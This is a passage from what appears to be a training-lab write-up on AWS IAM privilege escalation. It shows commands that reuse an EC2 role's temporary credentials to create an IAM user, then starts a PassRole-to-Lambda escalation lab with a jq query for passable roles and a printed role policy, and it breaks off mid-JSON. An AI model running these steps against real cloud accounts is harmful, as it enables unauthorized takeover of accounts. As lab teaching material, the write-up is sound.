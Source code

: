 This gives the output of the cURL command which contains the temporary credentials to assume the role that the EC2 instance has i.e., the `ec2admin` role. Then the following can be done to prove administrative privileges &rarr;

```bash
AWS_ACCESS_KEY_ID=$(cat assumed_role|jq '.AccessKeyId'|tr -d "\"") \
AWS_SECRET_ACCESS_KEY=$(cat assumed_role|jq '.SecretAccessKey'|tr -d "\"") \
AWS_SESSION_TOKEN=$(cat assumed_role|jq '.Token'|tr -d "\"") \
awsn iam create-user --user-name Bob
```

This solves the lab.

---

## Pass Role Lambda

The lab provides an IAM user `student` within an AWS account with the objective of gaining administrative access on the account.

Looking at the users, the user of importance is `student` who has the inline policy to allow `iam:PassRole`, `lambda:CreateFunction`, `lambda:InvokeFunction`, `lambda:List*`, `lambda:Get*` and `lambda:Update*` actions. Therefore, `student` has the ability to pass an existing role to a Lambda function.

If such a role exists which can be passed to Lambda and has enough permissions to help escalate, that would solve the issue. This can be checked by looking at the policy detail list. Such a function can be found in the lab account. The command to do a quick search is as follows &rarr;

```bash
cat account_authorization_details | jq '.RoleDetailList[] | select(.AssumeRolePolicyDocument.Statement[].Principal.Service=="lambda.amazonaws.com")'
```

This gives the following role &rarr;

```json
{
  "Path": "/",
  "RoleName": "lab11lambdaiam",
  "RoleId": "AROAVZBFEYFFM77TYJBLL",
  "Arn": "arn:aws:iam::397362381130:role/lab11lambdaiam",
  "CreateDate": "2022-04-26T19:11:46+00:00",
  "AssumeRolePolicyDocument": {
    "Version": "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "Service": "lambda.amazonaws.com"
        },
        "Action": "sts:AssumeRole"
      }
    ]
  },
  "InstanceProfileList": [],
  "RolePolicyList": [
    {
      "PolicyName": "terraform-20220426191146909700000003",
      "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
          {
            "Action": [
              "iam:AttachUserPolicy"
            ],
            "Effect": "Allow",
            "Resource": "*"
```